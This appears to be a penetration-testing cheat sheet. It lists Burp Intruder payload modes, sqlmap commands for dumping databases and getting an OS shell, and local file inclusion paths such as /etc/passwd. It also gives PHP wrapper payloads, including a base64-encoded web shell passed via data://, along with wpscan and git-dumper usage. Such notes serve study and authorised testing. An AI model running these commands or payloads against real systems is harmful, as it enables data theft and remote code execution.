 Multiple Payload Sets
- Pitchfork: same payload position from multiple sets at a time (credential stuffing)
    
- Cluster Bomb: all payload combinations
    
  
### Scoping Target
- right-click → Add to scope
    
- click filter bar on top → under Filter by request type, check Show only in-scope items
    
  
# SQLmap
- sqlmap -u [base URL] --crawl=1 (check all pages for injectability)
    
- sqlmap -u [website URL] --current-user (gets current user)
    
- sqlmap -u [website URL] --dbs (gets databases)
    
- sqlmap -u [website URL] --current-database (gets current database)
    
- sqlmap -u [website URL] --dump --threads=[number] (gets all data from database)
    
- sqlmap -u [website URL] -D [database] --tables (gets tables)
    
- sqlmap -u [website URL] -D [database] -T [table] --columns (gets columns)
    
- sqlmap -u [website URL] -D [database] -T [table] -C [columns → can be multiple separated by ,] --dump
    
- sqlmap -u [website URL] --os-shell (attempts to get shell on target)
    
  
# Local File Inclusion (LFI)
  
### Directories to try
/etc/passwd
/var/log/apache2/access.log
C:\Windows\System32\drivers\etc\hosts
  
### PHP wrappers
php://filter/resource=[file].php ⇒ display contents of PHP file
php://filter/convert.base64-encode/resource=[file].php
  
data://text/plain,<?php[code]?> ⇒ run PHP code
data://text/plain;base64,[base64] ⇒ run base 64 encoded PHP code
data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls
  
# WordPress
wpscan --url http://[host] -e vp,vt --detection-mode aggressive -v --api-token [token]
get token from [https://wpscan.com/profile](https://wpscan.com/profile)
  
# Git
git-dumper http://[url] [output dir]
git status
git log
git show [commit hash]
git reset --hard [commit hash]
  